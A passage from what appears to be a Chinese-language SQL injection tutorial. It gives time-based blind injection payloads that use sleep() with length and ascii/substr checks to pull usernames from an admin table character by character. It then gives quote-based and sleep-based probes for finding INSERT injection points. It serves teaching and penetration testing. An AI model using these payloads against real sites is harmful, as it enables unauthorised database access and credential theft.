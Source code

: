 第二步：判断某个数据的长度(以便逐位猜数据)
```
and if((select length(username) from admin limit 0,1)=5,sleep(5),0)
```
![](http://image.ixysec.com/image/sql/sql108.png)

第三步：逐位猜数据
```
and if((select ascii(substr(username,1,1)) from admin limit 0,1)=97,sleep(5),0)
```
![](http://image.ixysec.com/image/sql/sql109.png)

**基于时间的盲注实质：**
```
if(布尔盲注语句,sleep(5),1)
```

### 根据程序SQL语句分类
后台执行的SQL语句，不仅有select一种，还有INSERT、UPDATE、DELETE等。语句不同，注入的方法也就不一样了,下面我们就来介绍一下其他语句的注入方法。

#### INSERT注入
##### 检测方法
方法1：
第一步：在数据提交点，插入**英文输入法**状态下的**单引号**，如果数据插入失败，那么80%是注入，20%是拦截。

原因：
```
INSERT INTO 表名(col1,col2,col3) VALUES('a','b','c');   //实战中我们并不知道代码中的SQL是怎么写的，只能靠经验推测尽量还原出原始语句，所以这种注入一般白盒测试挖到比较多。
```
一般程序中的INSERT语句之中VALUES的值都是用单引号来包裹的，int数值型的不需要。所以插入单引号的时候就会影响语句闭合，因此插入失败。
![](http://image.ixysec.com/image/sql/sql110.png)

第二步：在数据提交点，插入双引号,数据正常插入，这时候90%确定是注入点了。
原因：双引号不影响语句的闭合，因此插入成功。
![](http://image.ixysec.com/image/sql/sql111.png)

第三步：在数据提交点，插入`\'`,数据正常插入，这时候100%确认是注入点了。
原因：`\'`是对单引号进行转义，转义后的单引号不会影响语句的闭合，因此插入成功。
![](http://image.ixysec.com/image/sql/sql112.png)

方法2：
方法1比较繁琐，而且对于int型的数据插入点测试可能会失效，int型数据不需要单引号来包裹。

方法2测试语句：
```
sleep(5)
'or sleep(5) or'
```
在int型数据插入点，由于没有单引号包裹，所以可以直接用sleep(5)来判断，如果延时5秒则存在注入；而string型的数据插入点，有单引号包裹，所以我们要先闭合单引号。

![](http://image.ixysec.com/image/sql/sql113.png)
